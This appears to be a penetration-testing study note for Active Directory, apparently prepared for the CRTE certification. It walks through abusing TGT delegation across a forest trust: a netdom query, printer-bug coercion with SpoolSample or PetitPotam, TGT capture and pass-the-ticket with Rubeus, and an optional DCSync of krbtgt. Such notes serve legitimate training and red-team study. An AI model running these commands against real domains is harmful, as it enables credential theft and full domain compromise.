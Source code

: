 # Methodology
>1. Check if TGTDelegation is enabled accross forest trust.
>2. Abuse printer bug or check for high value target tickets in memory.
>3. Capture the TGT of the high value target.
>4. Copy the ticket (remove extra spaces).
>5. Pass the ticket
>6. (OPTIONAL) Dcsync krbtgt.
---

**Check if TGTDelegation is enabled:**
```cmd
netdom trust contoso.local /domain:eu.local /query /EnableTgtDelegation
```

- **If output says `YES`**:
	- `eu.local` is vulnerable to TGT delegation attacks.

- **If output says `NO`**:
	- The trust does **not** allow TGT delegation.

# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## Rubeus

**Monitor the target for the TGT:**
```cmd
Rubeus.exe monitor /targetuser:target$ /interval:5 /nowrap
```

**Abuse printer bug:**
https://github.com/leechristensen/SpoolSample
https://github.com/topotam/PetitPotam
```cmd
# With SpoolSample
MS-RPRN.exe \\target.contoso.local \\unconstrained.contoso.local

# With PetitPotam
PetitPotam.exe target unconstrained
```

**Pass the ticket:**
```cmd
Rubeus.exe ptt /ticket:doIFsjCCBa6gAwIBBaEDAgEWooI...
```



netdom trust contoso.local /domain:eu.local /query /EnableTgtDelegation